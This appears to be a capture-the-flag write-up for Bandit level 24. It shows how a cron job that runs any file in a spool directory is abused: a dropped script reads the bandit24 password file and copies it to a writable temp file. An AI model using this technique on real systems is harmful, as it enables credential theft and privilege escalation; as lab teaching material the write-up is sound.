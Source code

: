 # Level 24

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

This is the script being executed as bandit24:
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
``` 

Basically what this script does is look for any scripts located in `/var/spool/bandit24/` and, if the user is `bandit23`, executes them. I went to a temporary directory and wrote this
```
bandit23@bandit:/tmp/lsdkfaj$ touch savepass.sh
bandit23@bandit:/tmp/lsdkfaj$ chmod +x savepass.sh 
bandit23@bandit:/tmp/lsdkfaj$ vim savepass.sh
```
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/lsdkfaj/pass
```

That script should be enough. The only thing missing would be to create the `pass` file and allow bandit24 to write on it
```
bandit23@bandit:/tmp/lsdkfaj$ touch pass
bandit23@bandit:/tmp/lsdkfaj$ chmod +w pass
```

Copy `savepass.sh` to `/var/spool/bandit24/` and wait for the password to be sent to you.
